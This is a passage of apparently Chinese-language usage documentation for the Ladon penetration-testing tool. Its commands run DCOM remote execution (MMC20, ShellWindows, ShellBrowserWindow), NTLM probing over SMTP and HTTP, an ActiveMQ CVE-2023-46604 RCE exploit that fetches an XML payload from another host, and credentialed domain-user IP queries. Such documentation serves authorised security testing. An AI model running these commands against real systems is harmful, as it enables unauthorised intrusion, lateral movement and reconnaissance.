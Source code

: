 ```Bash	
  download    Download file from target VM

  help        Display more information on a specific command.

  version     Display version information.
```

##### 250 Dcom远程执行命令之MMC20
```Bash	
Ladon MmcExec host cmdline
Ladon MmcExec 127.0.0.1 calc
Ladon MmcExec 127.0.0.1 Y2FsYw==
```

##### 251 Dcom远程执行命令之ShellWindows
```Bash	
Ladon ShellExec host cmdline
Ladon ShellExec 127.0.0.1 calc
Ladon ShellExec 127.0.0.1 Y2FsYw==
```

##### 252 Dcom远程执行命令之ShellBrowserWindow
```Bash
Ladon ShellBrowserExec host cmdline
Ladon ShellBrowserExec 127.0.0.1 calc
Ladon ShellBrowserExec 127.0.0.1 Y2FsYw==
```

##### 253 Smtp Ntlm探测系统信息(25、465、587端口)
```Bash	
Ladon 192.168.1.8/24 SmtpInfo
```

##### 254 HTTP/S Ntlm探测系统信息
```Bash	
Ladon 192.168.1.8/24 HttpInfo
```

##### 255 ActiveMQ CVE-2023-46604 RCE Exploit
```Bash	
Ladon CVE-2023-46604 -i 192.168.1.8 -u http://192.168.1.1/poc.xml
```

##### 256 DomainLog	DomainUserIP 远程查询域用户IP
```Bash	
       Ladon DomainLog -d 7
       Ladon DomainLog -h ip -d 7
       Ladon DomainLog -h ip -d 7 -grep user
       Ladon DomainLog -h ip -u username -p password -d 7
       Ladon DomainLog -h ip -u username -p password -d 7 -all
       Ladon DomainLog -h ip -u username -p password -d 7 -f user -o C:\path\res
ult.txt
```

=======================================================
